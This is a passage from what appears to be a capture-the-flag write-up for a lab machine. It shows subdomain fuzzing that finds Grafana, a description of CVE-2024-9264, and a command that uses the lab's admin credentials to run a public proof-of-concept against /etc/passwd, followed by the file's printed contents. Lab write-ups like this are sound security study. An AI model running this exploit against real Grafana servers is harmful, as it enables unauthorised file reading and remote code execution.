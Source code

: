 ```bash
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 418ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```
{: .nolineno }

This indicates a redirect to a Grafana instance, revealing an additional service for potential exploitation. 

**Reasoning**: Essential for uncovering hidden subdomains in name-based hosting; alternatives like Gobuster or DNS brute-forcing with dnsenum. Risks: High request volume might be rate-limited or detected as scanning.  

Lets use that to login into the grafana site 🔻

![](Pasted%20image%2020250823224837.png)
_Got the version_

## 4️⃣ Vulnerability Identification  

### CVE-2024-9264: [Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)](https://github.com/nollium/CVE-2024-9264).

**Description:** Insufficient sanitization of user-supplied queries in Grafana's experimental SQL Expressions feature allows authenticated users (viewer or higher) to inject arbitrary DuckDB SQL, leading to command injection and local file inclusion. Why vulnerable: Queries are passed unsanitized to DuckDB, enabling functions like read_blob for files or utility commands for RCE (limited to v11.0.0 for full RCE). Impact: Arbitrary file reads across versions 11.0.0-11.2.1; RCE in 11.0.0, potentially allowing shell access. 

**Reference**: https://github.com/nollium/CVE-2024-9264.  

## 5️⃣ Exploitation  

**Content**: Logged into Grafana with provided creds (admin:0D5oT70Fq13EvB5r). Used PoC script for `CVE-2024-9264` to read files and execute code. First, file read to gather intel; then, RCE for a reverse shell.  

**Commands/breakdowns/outputs:** Python script exploits via HTTP requests to /api/ds/query. Flags: `-u` (username), `-p` (password), `-f` (file to read), URL.  

**Command (File Read):**  

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -f /etc/passwd http://grafana.planning.htb/ 
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
